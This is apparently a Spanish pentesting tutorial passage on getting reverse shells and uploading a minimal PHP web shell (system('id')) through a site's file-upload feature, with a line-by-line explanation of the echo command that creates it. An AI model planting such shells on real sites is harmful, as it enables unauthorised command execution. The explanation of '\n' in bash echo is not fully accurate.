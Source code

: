 - **Probar diferentes tipos de reverse shell** si Bash no funciona (por ejemplo: PHP, Python, Perl, Netcat con `-e`, etc.).
- Una **reverse shell en PHP** lista para usar se puede obtener en:

```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

Solo debes editar la IP y el puerto en el código antes de desplegarla.

---
<a name="subir"></a>
## 📂 Subir reverse en PHP (si la página permite subida de archivos)

A veces, la página nos permite subir archivos y luego acceder a ellos directamente.  
Muchas páginas interpretan archivos PHP, por lo que podemos aprovecharlo para obtener una reverse shell o ejecutar comandos.

---

### 🔸 Ejemplo simple con `system`

```php
<?php
    system('id');
?>
```

Para crear este archivo desde el editor `nano`, por ejemplo, o mediante `echo` y guardarlo en un archivo que luego subimos:

```bash
echo "<?php\nsystem('id');\n?>" > prueba.php
```

---

### 🔍 Parte por parte

#### 1️⃣ `echo`

`echo` imprime texto en la terminal.

#### 2️⃣ El texto

```bash
"<?php\nsystem('id');\n?>"
```

Es un *string* (texto) que contiene el código que queremos poner en el archivo.

Ahora, veamos los `\n`:

- `\n` es un salto de línea (*newline*).
- Esto hace que el código quede con el formato adecuado (cada línea en su lugar), en vez de todo en una sola línea.
